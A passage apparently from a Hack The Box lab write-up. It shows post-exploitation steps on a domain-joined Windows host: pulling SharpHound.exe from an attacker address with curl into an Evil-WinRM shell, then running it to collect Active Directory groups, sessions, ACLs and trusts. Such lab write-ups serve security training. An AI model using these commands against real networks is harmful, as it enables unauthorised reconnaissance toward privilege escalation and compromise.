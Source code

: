 ![](2021-01-15-10-27-29.png)

-> bloodhound



kali@kali:~$ locate SharpHound
/usr/share/metasploit-framework/data/post/SharpHound.exe

curl 10.10.14.4:9090/SharpHound.exe -o SharpHound.exe

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> .\SharpHound -c all
-----------------------------------------------
Initializing SharpHound at 1:40 AM on 1/15/2021
-----------------------------------------------

Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain HTB.LOCAL using path CN=Schema,CN=Configuration,DC=HTB,DC=LOCAL
[+] Cache File not Found: 0 Objects in cache

